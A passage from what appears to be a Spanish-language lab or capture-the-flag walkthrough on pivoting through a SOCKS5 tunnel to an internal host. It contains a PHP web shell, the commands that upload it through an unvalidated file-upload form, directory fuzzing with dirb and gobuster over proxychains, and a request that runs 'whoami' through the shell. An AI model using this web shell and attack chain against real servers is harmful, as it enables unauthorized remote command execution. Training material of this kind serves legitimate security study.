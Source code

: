 Ahora tendremos que cargar este **proxy** en el navegador firefox para que puedamos acceder al recurso:
**( settings > configuracion manual de proxy > servidorScok > Sockv5 )**
```bash
127.0.0.1 4444 # puerto del segundo tunel
```

Ahora si que podemos ver el recurso:
```bash
http://30.30.30.3/
```

Tenemos un servicio web que nos permite subir un archivo, que si no valida el tipo de archivo nos aprovecharemos de esto para ganar acceso al objetivo medianet un archivo maliciso:
```bash
nvim cmd.php
```

Esto nos permite realizar una llamada a nivel de sistema para ejecutar un comando:
```php
<?php
  system($_GET["cmd"]);
?>
```

Ahora intentamos subir el archivo **php** en caso de que no lo permita realizaremos un ataque de extensiones:
```bash
The file cmd.php has been uploaded.
```

Vemos que se logro cargar ahora tenemos que averiguar donde es que se almacena asi que con **proxy** relizaremos fuzzing para encontrar el posible directorio donde se almaceno nuestro archivo malicioso
Ahora fuzzeamos por directorios
```bash
proxychains dirb  http://30.30.30.3/ 2>/dev/null
```

Ahora fuzzeamos con un proxy intermedio y gobuster
```bash
gobuster dir -u http://30.30.30.3/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 --proxy socks5://127.0.0.1:4444 --add-slash
```

Y tenemos el posible directorio donde se suben los archivos:
```bash
/uploads/             (Status: 200) [Size: 936]
```

Si ingresamos a esta ruta tenemos nuestro archivo malicioso:
```bash
http://30.30.30.3/uploads/cmd.php
```

Ahora intentamos ejecutar comandos:
```bash
http://30.30.30.3/uploads/cmd.php?cmd=whoami
```
